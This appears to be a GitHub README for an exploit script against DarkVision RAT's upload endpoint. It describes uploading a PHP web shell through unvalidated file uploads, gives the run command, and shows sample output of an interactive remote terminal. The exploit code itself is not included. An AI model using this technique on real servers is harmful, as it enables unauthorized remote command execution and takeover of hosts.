 ### `README.md`

# DarkVision RAT Exploit Script

## Summary

This script exploits a vulnerability in DarkVision RAT's upload endpoint that allows arbitrary file uploads. By exploiting this weakness, a malicious PHP shell can be uploaded and executed, granting the attacker remote command execution (RCE) on the server.

---

## How It Works

1. **File Upload**: The server fails to validate uploaded files, allowing attackers to upload executable PHP code.
2. **Dynamic Path**: The shell is stored in a predictable directory structure based on user-supplied `hwid` and `logfoldername` values.
3. **Command Execution**: The uploaded shell executes commands sent via HTTP GET parameters, enabling full RCE capabilities.

---

## Usage

### Installation
1. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```

### Execution
Run the script with the following parameters:
- **`-u`, `--url`**: Target URL for the upload endpoint (required).
- **`-o`, `--hwid`**: HWID value for directory (optional, default: random).
- **`-l`, `--logfoldername`**: Log folder name (optional, default: random).

#### Example
```bash
python exploit.py -u https://example.com/upload.php -o randomHWID -l logsFolder123
```

---

## Result

1. The shell is uploaded to a directory like:
   ```
   https://example.com/uploads/randomHWID/logsFolder123/shell.php
   ```
2. An interactive terminal is opened to execute commands on the server.

---

```plaintext
[*] Uploading shell to the target...
[*] Shell uploaded successfully.
[+] Shell URL: https://example.com/uploads/randomHWID/logsFolder123/shell.php

╔═════════════════════════════════════════════════════════════╗
║               DarkVision RAT Vuln - Terminal                ║
╚═════════════════════════════════════════════════════════════╝

darkvision-vuln@remote $ whoami
www-data
darkvision-vuln@remote $ ls
index.php
config.php
shell.php
darkvision-vuln@remote $ exit
[*] Exiting the terminal. Goodbye!
```

---
